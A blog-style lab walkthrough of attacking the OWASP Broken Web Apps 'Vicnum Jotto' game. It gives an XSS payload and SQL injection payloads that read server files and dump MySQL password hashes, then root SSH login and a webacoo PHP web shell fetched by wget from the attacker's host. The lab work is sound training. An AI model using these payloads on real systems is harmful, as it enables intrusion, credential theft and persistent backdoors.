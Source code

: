 +++
title = "OWASP Broken Web Apps Vicnum - Jotto"
slug = "owasp-broken-web-apps-vicnum-jotto"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the word in 43 tries I noticed that the count is being passed from the success page over to the scoreboard, much like its sibling application this ends up being something we can modify in transit.

The second time round I made a wordlist of the second word to guess once I figured out it had an r in it:

{% highlight bash %}
cewl -w wordlist.txt -v -d 0 -m 5 http://www.wordbyletter.com/words_starting_with.php?q=r
{% endhighlight %}

Luckily it did end up starting with an r, that way I didn't have to play the annoying game again just to modify my number of guesses.

After getting to the scoreboard page I noticed that the name get parameter is being injected into an HTML string on the page, try making this the name:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the name GET parameter worked.

The name parameter also seems like it might be vulnerable to SQLi

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get something a little more juicy:
{% highlight sql %}
union all select load_file('/etc/apache2/apache2.conf'),2,3,4#
{% endhighlight %}

This will return the entire apache web config in its entirety.

I suppose just like its sibling lets break in:

{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

As in the sibling application this page can be used to get root's password: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now for a persisted backdoor, webacoo worked for the last one, why not use it again.

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}
